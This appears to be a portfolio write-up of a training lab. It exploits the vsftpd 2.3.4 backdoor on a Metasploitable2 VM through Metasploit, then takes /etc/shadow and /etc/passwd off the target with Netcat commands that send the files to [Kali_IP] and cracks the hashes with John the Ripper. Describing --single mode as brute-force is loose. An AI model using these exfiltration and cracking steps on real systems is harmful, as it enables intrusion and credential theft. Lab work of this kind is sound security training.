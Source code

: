 # Project 3: Metasploitable2 Exploitation - VSftpd Backdoor & Hash Cracking

**Objective:** To exploit the VSftpd 2.3.4 backdoor vulnerability on Metasploitable2 using Metasploit, obtain a root shell, and then extract and crack user password hashes (msfadmin, user) using Netcat and John the Ripper.

**Skills Demonstrated:**

* Vulnerability Exploitation (CVE-2011-2523)
* Metasploit Framework Usage
* Linux File System Navigation
* Password Hash Extraction (`/etc/passwd`, `/etc/shadow`)
* Data Transfer Techniques (Netcat)
* Password Cracking (John the Ripper)
* Post-Exploitation Enumeration

**Tools Used:**

* **Metasploitable2:** The vulnerable target machine.
* **Kali Linux:** The attacking operating system.
* **Nmap:** For network scanning and service identification.
* **Metasploit Framework:** For exploiting the VSftpd backdoor.
* **Netcat:** For transferring files between machines.
* **John the Ripper:** For cracking password hashes.
* **Flameshot:** For capturing high-quality screenshots throughout the project.
* **CherryTree:** For organizing notes, steps, and observations during the assessment.

---

## Project Walk-through:

### Target Identification and Initial Scan:
I logged into my Metasploitable2 virtual machine to ascertain its IP address. Subsequently, I performed an Nmap scan targeting this IP address. The purpose of this scan was to enumerate open ports and identify running services, which could potentially expose vulnerabilities. The Nmap scan quickly highlighted `vsftpd 2.3.4` running on port 21, indicating a known vulnerability. This service version is notoriously vulnerable to a backdoor.
Screenshot: Metasploitable2 IP address.
Screenshot: Nmap scan results showing vsftpd 2.3.4.

### Metasploit Module Selection:
I launched the Metasploit Framework console (msfconsole) and searched for available exploits related to `vsftpd 2.3.4`. The `exploit/unix/ftp/vsftpd_234_backdoor` module was the primary candidate.
Screenshot: Metasploit console searching for vsftpd 2.3.4.

### Module Configuration and Exploitation:
I selected the identified exploit module and checked its required options using `show options`. The `RHOSTS` (remote host) option was the only mandatory parameter. I set `RHOSTS` to the IP address of Metasploitable2 and then executed the exploit using the `run` command. The exploit leveraged the backdoor in VSftpd 2.3.4, which allows arbitrary command execution. Upon successful exploitation, Metasploit provided a root shell on the target machine.
Screenshot: Metasploit show options for the vsftpd module.
Screenshot: Metasploit set RHOSTS command.
Screenshot: Metasploit run command and successful root shell.

---

## Post-Exploitation: Password Hash Extraction and Cracking

### Locating passwd and shadow Files:
From the root shell, I navigated to the `/etc/` directory, which contains crucial system configuration files. I inspected the contents of the `passwd` file, which lists user accounts but typically contains 'x' in place of the password hash. I identified `msfadmin` and `user` as standard user accounts on Metasploitable2, whose passwords I intended to crack for further access.
Screenshot: Catting /etc/passwd file.

### Extracting Password Hashes from shadow:
I then viewed the contents of the `shadow` file (`/etc/shadow`). This file contains the hashed passwords for user accounts and is readable only by root for security reasons. I successfully extracted the password hashes for `msfadmin` and `user`.
Screenshot: Catting /etc/shadow file.
Screenshot: Identified msfadmin and user hashes.

### Transferring Files with Netcat:
To transfer the `passwd` and `shadow` files securely from the Metasploitable2 machine to my Kali Linux machine, I used Netcat.
On Kali (listener): `nc -lvnp 1234 > passwd.txt` and `nc -lvnp 5678 > shadow.txt` (in separate terminals).
On Metasploitable2 (sender): `nc [Kali_IP] 1234 < /etc/passwd` and `nc [Kali_IP] 5678 < /etc/shadow`.
This allowed for direct, quick transfer of the sensitive files without relying on other services.
Screenshot: Netcat listener on Kali for passwd.txt.
Screenshot: Netcat listener on Kali for shadow.txt.
Screenshot: Netcat sender on Metasploitable2 for passwd.
Screenshot: Netcat sender on Metasploitable2 for shadow.

### Preparing Hashes for John the Ripper:
Before cracking, I used the `unshadow` command (part of the John the Ripper suite) to combine the `passwd.txt` and `shadow.txt` files into a single format that John can readily process.
`unshadow passwd.txt shadow.txt > unshadowed.txt`
Screenshot: unshadow command execution.

### Cracking Hashes with John the Ripper:
I then attempted to crack the hashes using John the Ripper with a standard wordlist. When this initial attempt did not yield results for `msfadmin` and `user`, I switched to `john --single unshadowed.txt`. The `--single` mode performs an efficient brute-force attack on individual hashes, often effective for simple or common passwords. This second attempt successfully cracked the passwords for both `msfadmin` and `user`.
Screenshot: Initial John the Ripper attempt.
Screenshot: John the Ripper --single mode cracking passwords.
Screenshot: Successfully cracked passwords for msfadmin and user.






